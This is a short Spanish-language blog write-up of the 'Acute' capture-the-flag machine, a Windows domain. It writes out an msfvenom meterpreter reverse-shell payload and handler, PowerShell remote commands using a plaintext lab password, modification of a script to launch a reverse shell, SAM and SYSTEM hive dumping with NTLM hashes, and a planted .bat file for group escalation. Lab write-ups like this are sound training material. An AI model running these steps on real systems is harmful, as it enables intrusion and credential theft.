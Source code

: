 ```yaml
---
layout: post
title: Acute
image: /assets/img/blog/acutepng.png
accent_image:
  background: url('/assets/img/red.jpg') center/cover
  overlay: false
subtitle: "LIS Algorithm"
category: machines
tags: 
---
```


# Acute

Lo más relevante de esta máquina fue 

pudimos usar `exiftools` para poder ver los metadatos del archivo encontrado en la web

```shell 
exiftools document.docx
```

Ganamos acceso a la máquina y usamos metaexploit para poder user `screenshare`

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.8 LPORT=443 -f exe -o msf.exe

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.10.10.10
set LPORT 443

```

Tenemos una constraseñas del usuari imonk, procedemos a utilizar pscredentials

```shell
$passwd = ConvertTo-SecureString 'W3_4R3_th3_f0rce' -AsPlaintext -Force
$cred = New-Object System.Management.Automation.PSCredential('acute\imonks',$passwd)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami}
```

Obteniendo un script que podemos manipular, podemos modificarlo para entablarnos una reverse shell, utilizamos el mismo que teníamos en la carpeta Utils. 

```shell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) 
-Replace 'Get-Volume','cmd.exe /c C:\Utils\shell.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1}
```

Ganamos acceso como otro usuario, podemos hacer lo siguiente ya que está dentro del grupo administradores, podemos intentar obtener los hashes de los usuarios con 
`secretsdump`

```shell
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup
```

Incluso con metasploit podremos obtener los hashes y podemos intentar crackearlos para obtener la contraseña.

```shell
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```

Con la contraseña podemos tener acceso a otro usuario por lo que revisando la máquina, vemos que hay un archivo en program files
que indica que cada 5 min ejecuta el archivo .bat, con Set-Content podemos crearnos un arcbivo asignando a nuestro usuario al grupo de domain_admins, utilizamos Siteadmin porque según la desripción
este grupo tiene los privilegios del grupo domain admins.

![imagen1](/assets/img/blog/Acute1.jpg)

```shell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\PROGRA~1\keepmeon\keepmeon.bat}
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content C:\PROGRA~1\keepmeon\pwned.bat -Value 'net group Site_Admin awallace /domain /add'}
```
